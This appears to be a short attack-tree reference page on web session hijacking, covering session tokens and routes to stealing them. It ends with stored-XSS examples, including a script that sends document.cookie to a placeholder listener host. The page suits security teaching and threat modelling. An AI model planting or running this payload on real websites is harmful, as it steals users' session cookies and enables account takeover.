 # Hijack session

A web server needs a method to recognize every user’s connections. The most useful method depends on a token that 
the Web Server sends to the client browser after a successful client authentication. A session token is composed of 
a string of variable width and can be used in different ways, like in the URL, in the header of the http requisition 
as a cookie, in other parts of the header of the http request, or in the body of the http requisition.

## Attack tree

```text
1 Get valid token session (Session ID)
    1.1 Use a sniffer (OR)
    1.2 Use an XSS attack to steal the session token
        1.2.1 Stored XSS
            1.2.1 Discover stored XSS vulnerability on target site
            1.2.2 Discover JSESSIONID cookie
            1.2.3 Set up listener
            1.2.4 Send JSESSIONID cookie to listener from target site
    1.3 Use (Man in the Middle) MitM
    1.4 Use (Man in the Browser) MitB
2 Use the valid token session to gain unauthorised access to the web server 
```

## Examples

### Use Stored XSS attack

Discover session cookie (indicator of attack against user, and indicator of compromise of website)

```text
<script>alert(document.cookie)</script>
```

Exploit

```text
<script>new Image().src="<LHost>:<LPort>/hacked.php?output="+ document.cookie;</script>
```